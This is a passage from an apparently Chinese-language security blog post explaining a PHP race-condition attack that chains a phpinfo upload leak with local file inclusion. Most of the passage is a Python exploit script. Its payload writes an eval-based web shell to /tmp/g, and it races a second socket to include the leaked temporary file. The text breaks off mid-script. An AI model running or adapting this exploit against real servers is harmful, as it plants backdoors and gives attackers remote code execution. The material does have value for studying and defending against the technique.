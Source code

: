 ![](https://img-blog.csdnimg.cn/fcde1b87713842a38fe5802474f1ab10.png)
所以此时需要利用到条件竞争(Race Condition)，原理也好理解——我们用两个以上的线程来利用，其中一个发送上传包给phpinfo页面，并读取返回结果，找到临时文件名；第二个线程拿到这个文件名后马上进行包含利用
```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

```